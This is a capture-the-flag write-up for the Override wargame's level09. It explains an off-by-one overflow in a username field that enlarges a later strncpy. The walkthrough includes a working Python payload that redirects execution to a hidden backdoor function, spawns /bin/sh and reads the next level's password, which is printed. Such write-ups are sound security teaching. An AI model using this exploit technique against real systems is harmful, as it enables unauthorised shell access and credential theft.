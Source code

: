 # Override - level09

We've started executing the binary to see what was asking.

It asked a username and a message to send to @Unix-Dude.

Disassembling using gdb we can see that there are multiple interesting funcions:

- `handle_msg` allocates `struct s_msg data` (see the structure below) 
        struct  s_msg
        {
                char    msg[140];
                char    username[40];
                size_t  msg_len;
        };
    and does the following:
    - calls `memset(data.username, 0, 40)` and set `data.msg_len = 140`
    - calls `set_username(&data)` and then `set_msg(&data)`
- `set_username` allocates `s` (128-bytes long buffer) and does the following:
    - asks for a `username` from `stdin` (and stores it into `s`)
    - copies each byte of `s` to `data.username` (up to 41 bytes, which leads to a buffer overflow)
- `set_msg` allocates `msg` (1024-bytes long buffer) and does the following:
    - asks for a `message` from `stdin` (and stores it into `msg`)
    - calls `strncpy(data->msg, msg, data->msg_len)`
- `secret_backdoor` allocates `cmd` (128-bytes long buffer) and does the following:
    - asks for a `command` from `stdin` (and stores it into `cmd`)
    - calls `system(cmd)`

The address of secret_backdoor is:

```
0x000055555555488c
```

we convert it in shellcode and build the payload
```
'\x8c\x48\x55\x55\x55\x55\x00\x00'.
```
```
- 40 bytes of padding (as a fake `username`)
- \xff is inserted at the 41th place of the username causing strncpy to read outside of his
  buffer
- `\n` (to end the `fgets(...)` call of `set_username`)
- 200 bytes of padding (as a fake `msg`)
- the new RIP (which will be the address of the function `secret_backdoor`) aka shellcode
- `\n` (to end the `fgets(...)` call of `set_msg`)
- the commands (which is `/bin/sh`, since we want to spawn a new shell)
```

```
python -c "print 'A' * 40 + '\xff' + '\n' + 'B' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00' + '\n' + '/bin/sh'" > /tmp/level09

cat /tmp/level09 - | ./level09

cat ~end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE

level09@OverRide:~$ su end

end@OverRide:~$ cat end
GG !
```